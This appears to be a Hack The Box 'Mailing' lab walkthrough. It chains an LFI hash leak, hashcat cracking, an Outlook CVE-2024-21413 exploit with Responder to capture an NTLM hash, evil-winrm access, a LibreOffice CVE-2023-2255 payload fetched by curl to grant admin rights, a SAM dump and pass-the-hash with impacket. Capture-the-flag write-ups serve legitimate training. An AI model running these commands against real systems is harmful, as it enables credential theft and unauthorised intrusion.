 # Mailing HTB Writeup

## Step 1: Scanning the open ports using NMAP 
```sh
nmap -sV -p- -A -sC 10.10.11.14
```
You will find out there are several port are open such as 25/TCP 80/TCP and many more.

## Step 2: Adding a domain name to `/etc/hosts`
```sh
sudo nano /etc/hosts 
```
Add the IP address:
```plaintext
10.10.11.14    mailing.htb
```

## Step 3: Open the webpage
```plaintext
http://10.10.11.14/
```

## Step 4: Scan the directories using dirsearch
Dirsearch tool is designed to brute force directories and files in webserver.
```sh
dirsearch –u http://mailing.htb/ -x 403404400
```
- `-u` -> the target URL to scan
- `-x` -> The status codes to exclude from the results i.e. 403 (forbidden) 404 (Not Found) 400 (Bad Request).

You will get `download.php` file. Let's try to download it and see what we get while we intercept using BURPSUITE tool. We should add a file parameter through which we can read the server configuration file using LFI. Inside we find the hashes. We can easily find out the AdministratorPassword in Hashes. Copy those hashes.

## Step 5: Crack the admin password using the hash code we got
We will be using hashcat over here.
```sh
hashcat –a 0 –m 0 <hash code> /usr/share/wordlist/rockyou.txt
```
Once the password is cracked you will see the password in the output section, i.e. `homenetworkingadministrator`.

## Step 6: Find the proper CVE which could help us in capturing user hash
```plaintext
https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability?tab=readme-ov-file
```
```sh
git clone <above url>
```
**NOTE:** Before using the exploit of the above-mentioned CVE don’t forget to turn on responder.

## Step 7: Use the exploit to send mail
```sh
python3 CVE-2024-21413.py –server mailing.htb –port 587 –username administrator@mailing.htb –password homenetworkingadministrator –sender administrator@mailing.htb –recipient maya@mailing.htb –url \\<IP address tun0>\test\meeting –subject “sd”
```
After executing this command you will get the user hash. Copy the user hash.

## Step 8: Crack the password using hashcat
```sh
hashcat –a 0 –m 5600 <hash code> /usr/share/wordlist/rockyou.txt
```
In the output, you will find out the password, i.e. `m4y4ngs4ri`.

## Step 9: Connect to powershell using evil-winrm
Since we got the user credentials of maya and in the above nmap scan, we saw port 5985 open.
```sh
evil-winrm –i 10.10.11.14 –u maya –p m4y4ngs4ri 
```
You will easily get the user flag.
```sh
cat user.txt
```

## Step 10: For root flag, find the libreoffice file version
```sh
type readme_en-US.txt
```
There is an exploit available for giving administrator privileges to the users.
```sh
git clone https://github.com/elweth-sec/CVE-2023-2255
```
**NOTE:** Cloning in the host machine.

## Step 11: Create an exploit to give maya admin access
```sh
python3 CVE-2023-2255.py –cmd ‘net localgroup Administradores maya /add’ –output ‘exploit.odt’
```
Once the exploit is created, transfer this exploit to our powershell.
```sh
sudo python3 –m http.server 4444 
```
**NOTE:** Creating an HTTP server should be done in the host machine.
```sh
curl –o exploit.odt <IP address>:4444/exploit.odt
```
**NOTE:** Curl command should be used in the target machine.

## Step 12: Check user groups before running the exploit
```sh
net users maya
```

## Step 13: Run the exploit and check user group again
```sh
./exploit.odt
net user maya
```

## Step 14: Get the local admin hash using crackmapexec
```sh
crackmapexec smb 10.10.11.14 –u maya –p "m4y4ngs4ri" –sam
```

## Step 15: Use the local admin hash for remote connection to the host as a root
```sh
impacket-wmiexec localadmin@10.10.11.14 -hashes <local admin hash>
```
You will find the root flag.

